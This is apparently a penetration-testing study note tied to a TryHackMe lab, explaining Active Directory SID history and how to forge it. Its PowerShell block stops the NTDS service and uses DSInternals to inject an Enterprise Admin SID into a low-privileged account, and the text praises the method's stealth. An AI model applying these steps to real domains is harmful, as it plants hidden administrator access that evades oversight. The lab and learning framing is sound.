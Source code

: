 # Active Directory SID History


The Security IDentifiers (SIDs) are used to track the security principal and the account's access when connecting to resources check: [[Windows-Accounts-Groups]] for more details. The have an attribute called SID history is use to enable access for an account to effectively be cloned to another. It help is AD migrations, as the user can still access the previous domains.

## Forging History

SID history are not restricted to only including SIDs from other domains therefore we can add a SID of our current domain to the SID history of an account we control.
- Requires Domain Admin privileges or the equivalent
- When the account creates a logon event, the SIDs associated with the account are added to the user's token, which then determines the privileges associated with the account. This includes group SIDs.
- We can inject the Enterprise Admin SID to elevate the account's privileges to effective be Domain Admin in all domains in the forest.
- Very Stealthy - SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group. It would look like a normal user in Domain Users group but with Enterprise Admin privileges - can alter a current normal user with these privileges for extra subterfuge.

```powershell
Get-ADUser <your ad username> -properties sidhistory,memberof # Check history, get sid
Get-ADGroup "Domain Admins" # SID of Domain Admins Group

Stop-Service -Name ntds -force 
# the latest version of Mimikatz has a flaw that does not allow it to patch LSASS to update SID history
# https://github.com/MichaelGrafnetter/DSInternals tool to patch the ntds
Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
Start-Service -Name ntds  
```

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)